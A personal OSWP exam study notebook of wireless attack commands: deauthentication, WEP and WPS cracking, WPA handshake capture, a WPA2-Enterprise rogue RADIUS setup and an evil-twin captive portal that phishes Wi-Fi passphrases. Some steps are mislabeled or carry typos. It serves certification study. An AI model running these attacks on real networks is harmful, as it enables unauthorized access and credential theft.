

Welcome to my OSWP mdBook
Currently, I'm preparing for the OSWP exam. While I utilize Obsidian for note-taking, I've discovered the advantage of having a well-formatted notebook for reference over a conventional note-taking application. This document is dynamic, undergoing multiple updates throughout the day.
Checkout my LinkedIn and Website:
Here's an awesome mindmap I found here: Koutto Github

-Brandon
Chapter 0 - Roadmap
Quick Notes
sudo lsusb -vv
lsusb
sudo airmon-ng
Bring normal network back up
------
service networking start
service network-manager start
-----
Update Kali:
sudo apt update
sudo apt full-upgrade -y
------
Update a local git repo:
either: git pull origin master
or: git pull origin main
Exam Roadmap
ssh <username>@<target_ip> -p<port> ## connecting to the target system with SSH information provided by @offsec
iw dev wlan0 scan | grep SSID ## wireless networks within the range of the wireless card (wlan0) are detected
airmon-ng start wlan0 ## setting the wireless card (wlan0) to monitor mode
airodump-ng mon0 ## detecting surrounding networks by listening to the network in monitor mode
iwconfig mon0 channel 3 ## change the channel where the wireless network card is located
iwlist mon0 channel ## view the channel where the wireless network card is located
airodump-ng -c 3 --bssid <AP_MAC> -w <capture_file> mon0 ## listening to the target AP on the specified channel
----------------------------------------------------------------------------------------------------------------------------------------------------------------
Opening more than one screen with the "screen" tool;
# screen -S test ## creating a workspace
# scren -l ## list actively used screens
# screen -a -r 13245 ## switch to a specifically selected screen
# CTRL + a + n ## connects to the next session
# CTRL + a + p ## go back to the previous session
----------------------------------------------------------------------------------------------------------------------------------------------------------------
Attack Map - WEP?###
> WEP;
AUTH: OPN? or SKA?
> AUTH: OPN;
Any client connected to AP? YES? or NO?
> YES;
# ARP Request Replay Attack
# Interactive Packet Replay Attack
# Deauthentication Attack (can be used in both cases (yes or no))
> NO;
# Fake Authentication Attack (can be used in both cases (yes or no))
# Fragmentation Attack
# Korek ChopChop Attack
> AUTH: SKA (Bypassing WEP Shared Key Authentication);
## There is a client connected to the AP. You can follow the steps below to attack;
# Deauthentication Attack
# Fake Shared Key Authentication Attack
# ARP Request Replay Attack
# Deauthentication Attack
# Aircrack-ng
Attack Map - WPA/WPA2?###
> WPA/WPA2
## Attack;
# Deauthentication Attack
## Cracking the network key;
# with Aircrack-ng
# with JTR and Aircrack-ng
# with coWPAtty
# with Pyrit
Chapter 0.5 - Quick Cheat Sheet
OSWP-Study-Guide
Study guide and command sheet for Offensive Security PEN-210 course (Offensive Security Wireless Pentester - OSWP)
Dependencies
In order to run the following commands, install these frameworks first:
sudo apt install airmon-ng reaver hashcat hostapd dnsmasq nftables apache2 libapache2-mod-php freeradius
Open Network with MAC filtering
In the event that fake authentication persistently fails, it is plausible that MAC address filtering is being employed. Under such a scheme, the Access Point (AP) will only permit connections from a predefined list of MAC addresses. Should this be the scenario, it will be necessary to acquire a legitimate MAC address by monitoring network traffic with the aid of Airodump-ng. Subsequently, impersonation of this MAC address should be carried out once the corresponding client has disconnected from the network. It is imperative to refrain from initiating a fake authentication attack targeting a specific MAC address if the client remains active on the AP.
Packet capture
airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>
Get your MAC address
macchanger --show <INTERFACE>
Fake authentication attack
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>
ARP replay attack
aireplay-ng -3 -b <BSSID> -h <YOUR_MAC> <INTERFACE>
Deauthentication attack
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>
Crack
aircrack-ng <CAPTURE_NAME>
WEP (Wired Equivalent Privacy)
WEP is a severely flawed security algorithm for IEEE 802.11 wireless networks. Below are the steps to exploit WEP vulnerabilities:
Step 1: Kill conflicting processes
sudo airmon-ng check kill
Step 2: Start monitor mode on wlan0
sudo airmon-ng start wlan0
Step 3: Scan for WEP networks
sudo airodump-ng wlan0mon --encrypt WEP
Step 4: Capture IVs
besside-ng -c Channel -b BSSID wlan0mon
Step 5: Crack WEP key
aircrack-ng ./wep.cap
Additional WEP Attacks:
WPS (Wi-Fi Protected Setup)
WPS was originally known as Wi-Fi Simple Configuration, aiming to unify vendor technologies for secure WPA/WPA2 passphrase sharing. However, it has its set of vulnerabilities. Below are the steps to identify and exploit WPS vulnerabilities:
Identifying access points with WPS enabled
wash -i <INTERFACE> -s
Fake authentication attack
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>
Offline brute force (pixie dust)
reaver -i wlan0 -b BSSID -SNLAvv -c 1 -K
Online brute force
reaver -i <INTERFACE> -b <BSSID> -SNLAsvv -d 1 -r 5:3 -c <CHANNEL_NUMBER>
WPA/WPA2/WPA3 Testing
Steps for testing security on networks with WPA/WPA2/WPA3 encryption, including setting up rogue APs and capturing handshakes:
WPA2 Enterprise
Follow these steps to set up wireless monitoring and perform the attack.
Step 1: Activate monitoring mode
airmon-ng check kill && airmon-ng start <interface>
Step 2: Check AUTH column
airodump-ng <interface>
Note: The AUTH column will say MGT.
Step 3: Capture the handshake
sudo airodump-ng -c channel -w ESSID interface
Step 4: Deauthenticate the client to capture the handshake
aireplay-ng -0 0 -a ESSID -c client_ESSID interface
Step 5: Analyze with Wireshark or tshark
After gathering the BSSID, ESSID, and channel:
- Use Wireshark or tshark with filters:
orwlan.bssid==E8:9C:12:02:66:AA && eap && tls.handshake.certificatetls.handshake.type == 11,3
Step 6: Save certificates using OpenSSL
View the Packet Details in TLSv1 Record Layer >> Handshake Protocol >> Certificate:
openssl x509 -inform der -in cert.der -text
Details needed for the attack include: Issuer information.
Step 6.5 (Optional): Convert the certificate to PEM format
openssl x509 -inform der -in cert.der -outform pem -out output.crt
Step 7: Set up FreeRADIUS server
Install with:
sudo apt install freeradius
Edit the ca.cnf and server.cnf files to have less suspicious certificate authority fields.
sudo mousepad /etc/freeradius/3.0/certs/ca.cnf
sudo mousepad /etc/freeradius/3.0/certs/server.cnf
Update the respective sections with the correct information.
Step 8: Prepare the certificates
Navigate to /etc/freeradius/3.0/certs/ and run:
sudo rm dh && make
Note: Ignore the error from FreeRADIUS if it expects other configurations.
Step 9: Configure hostapd-mana
Edit /etc/hostapd-mana/mana.conf with the correct SSID, Certificate paths, and EAP file.
Step 10: Set up mana.eap_user
Configure /etc/hostapd-mana/mana.eap_user with the desired protocols and authentication methods.
Step 11: Start hostapd-mana
hostapd-mana /etc/hostapd-mana/mana.conf
Step 12: Use asleap to find a user
Run asleap with the correct command to find a user with a successful login.
<asleap command> -W /usr/share/john/password.lst
Step 13: Create wpa_supplicant.conf file
Add the network configuration details:
network={
ssid="NetworkName"
scan_ssid=1
key_mgmt=WPA-EAP
identity="Domain\\username"
password="password"
eap=PEAP
phase1="peaplabel=0"
phase2="auth=MSCHAPV2"
}
Step 14: Connect to the network
Use wpa_supplicant to connect:
wpa_supplicant -c <config file>
Rogue Access Points
Instructions for creating a rogue AP.
Discovery
sudo airodump-ng -w capturename –output-format pcap wlan0mon
Wireshark Filters:
wlan.fc.type_subtype == 0x08 #Broadcast Frames
wlan.ssid == “apname” #AP name
Filters can be appended to filter for broadcast frames from a specific AP:
wlan.fc.type_subtype == 0x08 && wlan.ssid == “apname”
The interesting parts are in Tag: Vendor Specific: & Tag: RSN: Information
Creating a Rogue AP
Hostapd-mana template location:
/etc/hostapd-mana/hostapd-mana.conf
Or you may download the hostapd-mana.config in this repository and modify to your needs.
Start hostapd-mana:
sudo hostapd-mana hostapd-mana.conf
Cracking .hccapx Files
aircrack:
aircrack-ng name.hccapx -w /wordlist/rockyou.txt
If you run into errors, you may try:
aircrack-ng name.hccapx -e ESSID -w /wordlist/rockyou.txt
hashcat:
hashcat -m 2500 capture.hccapx /usr/share/worlists/rockyou.txt
Attacking Captive Portals
This guide provides step-by-step instructions for setting up a wireless network monitoring and attack environment.
1. Set Interface to Monitor Mode
Begin by capturing information about clients and access points (APs) around you:
sudo airodump-ng wlan0mon
2. Adjust the Capture
To specify the capture details, use:
sudo airodump-ng -w fileName –output-format pcap -c channelnumber interface
3. De-authenticate Connected Devices
Wait until the WPA handshake is captured:
sudo aireplay-ng -0 amountOfdeauths -a ApBSSID interface
4. Disable Monitor Mode
After completing the capture, disable monitor mode:
sudo apt install apache2 libapache2-mod-php
5. Download the Example Page
Use wget to download the webpage. Here, -l2 means to go 2 levels deep:
wget -r -l2 https://www.website.com
6. Prepare the Web Directory
Create a directory for the phishing webpage:
sudo mkdir /var/www/html/portal && sudo mousepad /var/www/html/portal/index.php
7. Replicate the Website's Style
Replicate the styling of the example website page and copy the assets:
sudo cp -r ./www.website.com/assets /var/www/html/portal
8. Set Up the Login Page
Configure the login page to redirect to login_check.php:
sudo mousepad /var/www/html/portal/login_check.php
9. Assign an IP address and activate the interface:
sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
10. Ensure dnsmasq is installed:
sudo apt install dnsmasq
11. Create the DHCP config file at /home/kali/dnsmasq.conf and add spoofing entries for top-level domains:
address=/com/192.168.0.1
address=/org/192.168.0.1
address=/net/192.168.0.1
12. For Windows 7 & 10 captive portal detection, add:
address=/dns.msftncsicom/131.107.255.255
13. Start dnsmasq with the config file:
sudo dnsmasq –conf-file=dnsmasq.com
14. Verify if dnsmasq is running successfully:
sudo tail /var/log/syslog | grep dnsmasq
15. Install nftables:
sudo apt install nftables
16. Add required rules:
sudo nft add table ip nat
sudo nft ‘add chain ip nat PREROUTING { type nat hook prerouting priority dstnat; policy; accept; }’
sudo nft add rule ip nat PREROUTING iifname “wlan0” udp dport 53 counter redirect to :53
17. Modify Apache configuration:
sudo mousepad /etc/apache2/sites-enabled/000-default.conf
18. Enable necessary modules and restart Apache:
sudo a2enmod rewrite && sudo a2enmod alias
sudo systemctl restart apache2
19. Check the portal by navigating to:
Firefox 127.0.0.1/portal/index.php
20. Install hostapd and edit the configuration:
sudo apt install hostapd && mousepad hostapd.conf
21. Create and run a 802.11n AP:
sudo hostapd -B hostapd.conf
22. Monitor the logs in two separate terminals:
- Terminal 1:
sudo tail -f /var/log/syslog | grep -E ‘(dnsmasq|hostapd)’
- Terminal 2:
sudo tail -f /var/log/apache2/access.log
23. Search for passphrase files in /tmp/:
sudo find /tmp/ -iname passphrase.txt
24. Read the contents of the passphrase file:
sudo cat /tmp/systemd-private-b37…aef-apache2.service-b...i/tmp/passphrase.txt
Information Discovery Example
- ESSID of JesusIsTheWay
- BSSID of 34:5a:90:e0:5a:30
- WPS (AES/CCM)
- Uses a PSK
- Runs on channel 1
Definitions
- AP: Access Point
- BSSID: Basic Service Set Identifier is a 48-bit number that follows MAC address conventions.
- ESSID: Extended Service Set Identifier is a unique identifier to avoid interference on a wireless network.
Troubleshooting
- Make sure that hostapd-mana is installed on Kali. Default installations currently feature hostapd, hostapd-wpa and hostapd_cli. None of these frameworks feature the mana_wpaout section in the hostapd-mana.config, and will result in error: unknown configuration item 'mana_wpaout'
- When starting the exam, fist thing after connecting to the .ovpn is to test both SSH and RDP protocols to ensure connection works as intended.
- In order to list wireless interfaces, execute command:
sudo airmon-ng
- To restart Network Manager, execute command:
systemctl restart NetworkManager.service
Sources
hostapd-mana.conf template
# Template Config File for hostapd-mana command:
interface=wlan0
ssid=apname
channel=1
ieee80211n=1
hw_mode=g # if 5ghz, set to a
wpa=3 # 1 only enables WPA, 2 is WPA2
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD # actual value irrelevant, as we are trying to capture handshake, has to be between 8 - 63 characters
wpa_pairwise=TKIP CCMP # WPA only
rsn_pairwise =TKIP CCMP # WPA2 only, since using option 3, we enable both
mana_wpaout=/home/kali/name.hccapx # specifies where to save handshakes, each handshake is appended to the file, can be decrypted with hashcat -m 2500 or aircrack-ng
# if mana_wpaout is producing error: unknown configuration item 'mana_wpaout' make sure you are using command hostapd-mana and not hostapd command
Disclaimer and Legal Notice
Ethical Considerations and Legal Compliance
The techniques, commands, and procedures outlined in this guide are intended solely for educational purposes and preparing for the Offensive Security PEN-210 course (Offensive Security Wireless Pentester - OSWP). These techniques involve methodologies that, if misused, may constitute illegal activities. Users are strongly cautioned against engaging in any unauthorized and/or unlawful actions.
Scope of Use
- Authorized Environments Only: The execution of penetration testing, network attacks, and other tactics described herein should only be performed on networks and systems that are explicitly owned or authorized for testing by the user. This includes personal hardware, controlled environments, or environments for which explicit, documented permission has been granted.
- No Unauthorized Use: Under no circumstances should these techniques be applied to networks, systems, or devices without explicit authorization. Unauthorized use of these techniques may lead to legal consequences and is strongly condemned.
Exam Conduct
- Adherence to Exam Guidelines: While this guide serves as preparation material for the OSWP exam, users must strictly adhere to the guidelines, rules, and ethical standards set forth by Offensive Security during the examination.
- Prohibited Actions: Any attempt to use these techniques outside of the specified exam environment, or in a manner not aligned with the exam's rules, may result in disqualification, legal action, and other serious consequences.
Liability
- No Responsibility for Misuse: The authors, contributors, and associated entities of this guide accept no responsibility or liability for any misuse, damage, or illegal activities arising from the information presented. Users are solely responsible for their actions.
- Acknowledgment of Risk: Users acknowledge the risks involved in security testing and penetration testing and agree to ensure ethical and legal use of this information.
Continuous Learning and Ethical Growth
- Commitment to Ethical Hacking: Users are encouraged to pursue knowledge in cybersecurity and ethical hacking with a strong commitment to legal compliance, ethical behavior, and respect for privacy and data protection.
By using the information in this guide, you acknowledge having read, understood, and agreed to this disclaimer and all its terms. Your use of this information indicates your acceptance of the risks and your commitment to using this knowledge responsibly and ethically.
Chapter 1 - Connect
Connecting to an Access Point
Change between monitor and manage mode
Monitor mode
airmon-ng
airmon-ng start wlan0
Manually
# Use the following command to set interface in monitor mode.
iw dev <interface> set monitor none
# If this gives you device busy error, then do the following:
ifconfig <interface> down
iw dev <interface> set monitor none
ifconfig <interface> up
Managed mode
Needed for connecting to networks!!!
airmon-ng
sudo airmon-ng stop wlan0mon
Manually
ifconfig mon0 down
ifconfig mon0 mode managed
ifconfig mon0 up
We can also disconnect and reconnect the adapter. With iwconfig we can see the mode of the interface.
To connect to a network we need to reestart NetworkManager, if we killed it previously with airmon-ng check kill
sudo service NetworkManager start
If the network uses mac filtering we cannot connect. It can be blacklist or whitelist. If it's blacklist we can use any non blacklisted MAC. If it's whitelisted we need to use the MAC of a connected client. A symptom of MAC filtering is that the network is OPEN or we have a password and still can't connect
sometimes changed macs don't stay when trying to connect to the network
wpa_supplicant -> Client to connect to wifi networks
IMPORTANT, indent what's insde braces or it will fail (parsing error). If tabs fail, add a couple of whitespaces instead
IMPORTANT, if wpa_supplicant is connected via an interface to a network it cannot connect to another, search ps aux for wpa_supplicant processes and kill them before connecting to another network or with a different configuration
several interfaces of wpa_supplicant can be run in parallel for different interfaces with different configurations
- scan_ssid -> send probe requests
Config file for open network
network={
ssid="<ESSID>"
scan_ssid=1
}
alternative:
network={
ssid="<ESSID>"
scan_ssid=1
mode=0
auth_alg=OPEN
key_mgmt=NONE
}
Config file for WEP network
If we have a hex key, dont use quotation marks " and don't use : to separate bytes (the next two examples are equivalent, one with ASCII key and the other with hex key)
network={
ssid="<ESSID>"
key_mgmt=NONE
wep_key0="34567"
wep_tx_keyidx=0
}
network={
ssid="<ESSID>"
key_mgmt=NONE
wep_key0=0304050607
wep_tx_keyidx=0
}
alternative
network={
ssid="<ESSID>"
scan_ssid=1
mode=0
auth_alg=OPEN
key_mgmt=NONE
wep_key0=0304050607
}
Config file for WPA-PSK network
Valid for WPA-PSK and WPA2-PSK
network={
ssid="<ESSID>"
scan_ssid=1
psk="<passphrase>"
key_mgmt=WPA-PSK
}
alternative
network={
ssid="<ESSID>"
mode=0
scan_ssid=1
auth_alg=OPEN
key_mgmt=WPA-PSK
proto=WPA
pairwise=TKIP
group=TKIP
psk="<passphrase>"
}
Specific config file for WPA2-PSK
but WPA2-PSK (only) can be specified like this also:
wpa_supplicant will automatically choose between TKIP and CCMP based on availability, but it is possible to force one or the other by adding pairwise=CCMP or pairwise=TKIP to the configuration if necessary.
network={
ssid="<ESSID>"
key_mgmt=WPA_PSK
psk="<passphrase>"
proto=RSN
pairwise=CCMP
group=CCMP
}
# less specific, can work better
network={
ssid="<ESSID>"
key_mgmt=WPA_PSK
psk="<passphrase>"
proto=RSN
}
# or maybe this is necessary, due to retrocompatibility with old devices
network={
ssid="<ESSID>"
key_mgmt=WPA_PSK
psk="<passphrase>"
proto=WPA
pairwise=CCMP
group=CCMP
}
- RSN -> Robust Secure Network (this sets pairwise and group to CCMP, although it can be specified explicitely so that we are not downgraded in any case). Maybe specifying pairwise and/or group fails, don't specify them first
alternative:
network={
ssid="<ESSID>"
scan_ssid=1
mode=0
auth_alg=OPEN
key_mgmt=WPA_PSK
psk="<passphrase>"
proto=RSN
pairwise=CCMP
group=CCMP
}
WPA-Enterprise
PEAP-MSCHAPv2 authentication
network={
ssid="<ESSID>"
scan_ssid=1
key_mgmt=WPA-EAP
eap=PEAP
identity="bob"
password="hello"
phase1="peaplabel=0"
phase2="auth=MSCHAPV2"
}
PEAP-GTC WPA Supplicant Configuration
network={
ssid="<ESSID>"
scan_ssid=1
key_mgmt=WPA-EAP
eap=PEAP
identity="bob"
password="hello"
phase1="peaplabel=0"
phase2="auth=GTC"
}
TTLS-PAP WPA Supplicant Configuration
network={
ssid="<ESSID>"
scan_ssid=1
key_mgmt=WPA-EAP
eap=TTLS
identity="bob"
anonymous_identity="anon"
password="hello"
phase2="auth=PAP"
}
TTLS-CHAP WPA Supplicant Configuration
network={
ssid="<ESSID>"
scan_ssid=1
key_mgmt=WPA-EAP
eap=TTLS
identity="bob"
anonymous_identity="anon"
password="hello"
phase2="auth=CHAP"
}
TTLS-MSCHAPv2 WPA Supplicant Configuration
network={
ssid="<ESSID>"
scan_ssid=1
key_mgmt=WPA-EAP
eap=TTLS
identity="bob"
anonymous_identity="anon"
password="hello"
phase2="auth=MSCHAPV2"
}
Tool to generate configuration files: wpa_passphrase. Mandatory parameter: ESSID. Optional parameter: passphrase
Connect to a network with wpa_supplicant and config file
- -i -> interface used to connect
- -c -> config file
- -B -> run wpa_supplicant in the background
sudo wpa_supplicant -i wlan0 -c wifi-client.conf
# sometimes the driver that wpa_supplican uses is specified (different from the driver used for the wifi interface)
sudo wpa_supplicant -Dnl80211 -i wlan0 -c wifi-client.conf
# request an ip by dhcp, once we are connected to an AP
dhclient -v wlan0
Manual connection
sudo /sbin/ifconfig wlan0 up
sudo /sbin/iwlist wlan0 scan
sudo /sbin/iwconfig wlan0 essid "NetworkName"
sudo /sbin/iwconfig wlan0 key network_key
sudo /sbin/iwconfig wlan0 enc on
To get an IP after connecting to the AP: dhclient -v wlan0
alternative method:
sudo iwconfig wlan0 essid <SSID> key s:<KEY>
sudo dhclient -v wlan0
Change MAC address
Manually:
ifconfig wlan0 down
ifconfig wlan0 hw ether <new MAC>
ifconfig wlan0 up
Mac-changer:
# for specified mac
sudo macchanger -m <valid MAC> wlan0
# for random mac
sudo macchanger -r wlan0
Change Wifi band
for 5 GHz
airodump-ng --band a wlan0mon
For both 5 and 2.4 GHz:
airodump-ng --band abg wlan0mon
Wifi bands
- Decide which ranges of freqs can be used
- Determine the channels that can be used
- Clients must support the band used by the AP to connect to it or sniff traffic Most common bands:
- a, only 5 GHz -> seems like scanning with airodump on band a can pick up 2.4 GHz APs too
- b, g, only 2.4 GHz
- n, both 5 and 2.4 GHz
- ac, freqs lower than 6 GHz
Channel bonding: sometimes several channels are combined into one, used to avoid interferences between channels. 802.11 n - compatible networks means that they support channel bonding.
In 5 GHz there is no overlapping in frequency between adjacent channels, that increases throughput. In 2.4 GHz there is.
When a client sends the others cannot. For that is good to have low power APs, to avoid many clients connecting to the same AP and one of them takes over.
Other commands
# devices connected by usb
sudo lsusb -vv
# physical properties of wifi interfaces (support of a card for monitor mode can be found)
iw dev
iw phy
iw list
# view regional settings. If some channel says PASSIVE-SCAN, it is listening but not sending packets
iw reg get
# change regulatory domain settings
iw reg set <country code>
# if iw phy says no IR (IR=initial radiation) that channel is not used in the configured country. We can also check if a channel can be used by checking if packets arrive when we do:
iw dev wlan0 set channel 13
aireplay-ng --test wlan0
# change channel width (for channel bonding, although management frames have always a standard width of 20 MHz)
iw dev wlan0 set channel 6 HT40+
iw dev wlan0 set channel 36 80MHz
# Scan networks without airodump
iw dev wlan0 scan
iw dev wlan0 scan |grep "SSID:"
# Connect to an open SSID
iwconfig wlan0 essid <essid>
Common mistakes:
- interface
- make sure it is up (ifconfig wlan0 up)
- make sure it is the correct mode (iw dev)
- sniffing
- sniff in all frequencies: (a, b/g)
- use proper channel width, if there is channel bonding
Hidden networks
Hidden networks don't advertise their name (ESSID) but they advertise their presence (BSSID). This is enough for us to not be able to connect or try to crack their pass, or try to launch attacks against it.
Airodump only shows the name length, but not its value
In windows we see "hidden network" and it asks for the name when we try to connect
If a network has hidden ESSID the first step is to ALWAYS try to find it. If there are clients connected we can deauth one of them and we will capture the name when he reconnects. If there are no connected clients try a dictionary attack, trying to connect to a network using different names from a dictionary
Non probing clients are clients which are there, but don't probe networks, therefore we cannot detect their presence. We can create fake APs to see if he connects to any of them.
others
Several APs with different BSSID can share the same ESSID (this is, a single network with several access points)
The radiotap header that wireshark shows is added by wireshark, that information is not in packets sent through the air
Types of frames (for attacks, data frames are the important ones)
- Management (advertisement, discovery, connection/disconnection)
- Control (to facilitate delivery of Management and Data frames)
- Data
WDS -> wireless distribution system: provide internet access from one wifi router to another via wifi (not by cable), so that the second one can cover a zone where the signal of the first doesn't reach
Beacon flood attack: fill the air with fake beacons so that clients see a lot of APs and the ones they want to see may fall out of the list mdk4 wlan0 b
-
Some wireless drivers ignore directed deauthentication and only respond to broadcast deauthentication. We can run the same aireplay-ng deauthentication command without the -c parameter.
-
If 802.11w is in use, unencrypted deauthentication frames are ignored. The only course of action is to wait for a client to connect.
-
The device simply didn't reconnect or was already out of range of the AP.
wigle.net -> geographical location of BSSIDs
Some phones randomize their MAC until the moment they connect to a network, when they switch to the good one. If we setup a honeypot we can get their real MAC if they connect to us
Chapter 2 - Aircrack
Quick Notes
# Notes
> wlan0 ## network interface where the wireless network card
> mon0 ## network interface where the wireless network card is in monitor mode
# airmon-ng check ## control monitor processes
# airmon-ng check kill ## kill monitor processes
# airmon-ng start wlan0 ## open the monitor mode
# iwconfig mon0 channel 3 ## change the channel where the wireless network card is located
# iwlist mon0 channel ## view the channel where the wireless network card is located
# airmon-ng stop mon0 ## close the monitor mode
# iw dev wlan0 scan | grep SSID ## wireless networks within the range of the wireless card (wlan0) are detected
# airodump-ng mon0 ## a basic listening session
# airodump-ng -c 3 --bssid <AP_MAC> -w cap1 mon0 ## listening to a specific AP's network
# airodump-ng -c 3 --bssid <AP_MAC> -w cap1 --ivs mon0 ## reducing disk network used by file capture while listening to the network
# aireplay-ng <options> <interface name> ##general usage
Attack Attack Name
------ -----------
# 0 ## Deauthentication
# 1 ## Fake Authentication
# 2 ## Interactive Packet Replay
# 3 ## ARP Request Replay Attack
# 4 ## KoreK ChopChop Attack
# 5 ## Fragmentation Attack
# 6 ## Café-Latte Attack
# 7 ## Client-Oriented Fragmentation Attack
# 9 ## Injection Test
# aireplay-ng -9 mon0 ## basic injection test
# aireplay-ng -9 -e <ESSID> -a <AP_MAC> mon0 ## injection test for hidden or specific SSID
# aireplay-ng -9 -i <input interface> mon0 ## card-to-card (attack) injection test
airmon-ng
# List interfaces
sudo airmon-ng
# List programs that can interfere with aircrack-ng suite
sudo airmon-ng check
# Kill processes that can interfere with aircrack-ng suite
sudo airmon-ng check kill
# Create an interface (wlan0mon) in monitor mode from an existing one (wlan0)
sudo airmon-ng start wlan0
# Stop monitor mode
sudo airmon-ng stop wlan0mon
# Start monitor mode only on channel 2 (only do this when the tool that will be used next doesn't change channels itself)
sudo airmon-ng start wlan0 2
# manually set channel
iw dev wlan0 set channel 13
# Check that we changed the channel correctly
sudo iw dev wlan0mon info
# verbose and debug mode
sudo airmon-ng --verbose
sudo airmon-ng --debug
Even if we don't see connected clients, send deauth packets against the different networks, with airodump listening in the specific channel (so that we don't miss reauth attempts if we are scanning other channels at that moment)
airodump-ng
# Specify the channel where airodump listens
airodump-ng --channel 11 --bssid <bssid>
# listen to a single bssid and write output to a file (it creates several files with different formats)
airodump-ng --channel 11 --bssid <bssid> --write <file name>
# scan both 2.4 and 5 GHz simultaneously
airodump-ng wlan0 --band abg
# load capture file in airodump
airodump-ng -r <file.cap>
# show WPS status for WPA networks
airodump-ng wlan0 --wps
aireplay-ng
# deauth a client (1000000 is a large number of packets, to keep the deauth attack working for a while):
sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon
# To background the command and don't see output
sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon &> /dev/null &
# with "jobs" we can see the jobs backgrounded with &. each has an ID
jobs
# kill all backgrounded aireplay processes.
killall aireplay-ng
# kill only the first process in the "jobs" list:
kill %1
# To deauth every client connected to a BSSID don't specify a client <MAC>
aireplay-ng --deauth 4 -a <bssid> wlan0mon &> /dev/null &
# check if we can inject in visible APs
sudo aireplay-ng -9 wlan0mon
# check if we can inject in a specific AP
sudo aireplay-ng -e <ap_name> -a <MAC> wlan0mon
# Same as above, but without expecting to receive probes
sudo aireplay-ng -e <ap_name> -a <MAC> -D wlan0mon
# if we have two wifi cards, wlan0mon and wlan1mon, card-to-card test, to make sure they can inject. if it says (5/7 error, still can be used to attack an AP)
sudo aireplay-ng -9 -i wlan1mon wlan0mon
Sometimes aireplay-ng says that he can't find the BSSID, that's because it's not using the appropriate channel. For that, run airodump-ng in the appropriate channel before aireplay-ng, or set the channel with "iw dev wlan0 set channel 13"
airdecap-ng
# Keep the packets targeted to a specific <BSSID> and remove the rest from a cap file (creates a new file)
airdecap-ng -b <MAC> file.pcap
# decrypt saved traffic with a passphrase (check that the passphrase works, we may capture failed logins)
airdecap-ng -b <bssid> -e <essid> -p <pass> file.pcap
aircrack-ng
#benchmark (dice k/s, que es el numero de palabras por segundo que puede crackear)
aircrack-ng -S
# DON'T use a dictionary for WEP files!!!!
aircrack-ng wep.cap
# crack a handshake saved in a cap file:
aircrack-ng -w <path to wordlist> -e <ESSID> -b <ap bssid> file.pcap
aircrack-ng -w /usr/share/john/password.lst -e <ESSID> -b <ap bssid> file.cap
#crack using a db created with airolib (precomputed PMKs)
aircrack-ng -r wifu.sqlite wpa1-01.cap
If in a capture file an AP has hidden name but we find it in another way, we need to pass both arguments to aircrack-ng, -b and -e, so that it can match a BSSID to an ESSID
airgraph-ng
Creates graphs of APs and stations. Colors:
- green -> WPA
- yellow -> WEP
- red -> open
- black -> desconocido el cifrado
#CAPR: client to access point relationship. Provide a csv captured by airodump
airgraph-ng -i dump.csv -o file.png -g CAPR
# CPG: client probe graph -> shows relations (connections) from clients to APs
airgraph-ng -i dump.csv -o file.png -g CPG
airolib-ng
manages password lists in SQLite (calculating pairwise master key (PMK) is slow, but it is constant for an AP. precomputing it saves time later).
# create a text file containing the ESSID of the target AP
echo wifu > essid.txt
# import the text file into an airolib-ng database
airolib-ng wifu.sqlite --import essid essid.txt
# info about database (ESSIDs and stored passwords)
airolib-ng wifu.sqlite --stats
# import a dictionary of passwords (ignores those shorter than 8 chars and larger than 63 chars, since they are not valid WPA passphrases)
airolib-ng wifu.sqlite --import passwd /usr/share/john/password.lst
# calculate the PMK corresponding to each inported password
airolib-ng wifu.sqlite --batch
#crack using a db
aircrack-ng -r wifu.sqlite wpa1-01.cap
Chapter 3 - Protocol
wifi bands
- a, only 5 GHz -> seems like scanning with airodump on band a can pick up 2.4 GHz APs too
- b, g, only 2.4 GHz
- n, both 5 and 2.4 GHz
- ac, freqs lower than 6 GHz
WEP (wireless equivalent privacy)
SKA = shared key authentication (ver si sale en PA al intentar auth wep) [[4 - WEP#WEP SKA]] ICV = integrity value check (CRC) WEP cloaking = the AP injects fake wep packets to difficult cracking Keystream (created by RC4 from IV + key)
WPA/WPA2
PSK = pre shared key (what the client enters to connect) PTK = pairwise transient key PMK = pairwise master key (dynamic key generated in handshake using PBKDF2 (password based key derivation function 2)) - If there is a PSK, the PMK is the PSK - A PSK is either a 256-bit key or derived from a passphrase - If a passphrase is used, it generates the PSK using the AP SSID as the salt: PSK = PBKDF2(HMAC−SHA1, Passphrase, SSID, 4096, 256) - If there is no PSK, the PMK is derived using 802.1x EAP exchange, usually RADIUS GTK = group transient key (used when messages like ARP are sent to many people, everyone needs to decrypt it equally) WPS = wifi protected setup (Tools: wash, reaver, bully) PBC = push button configuration Encryption mechanisms TKIP (based on WEP, which uses RC4, xor, etc) CCMP (based on AES)
-
The 4-way handshake does the following:
- Confirm the client’s knowledge of the PMK
- Confirm the AP's knowledge of the PMK
- Derive a new and unique PTK
- Install encryption and integrity keys
- Encrypt transport of the AP generated GTK to the client
- Confirm cipher suite selection
-
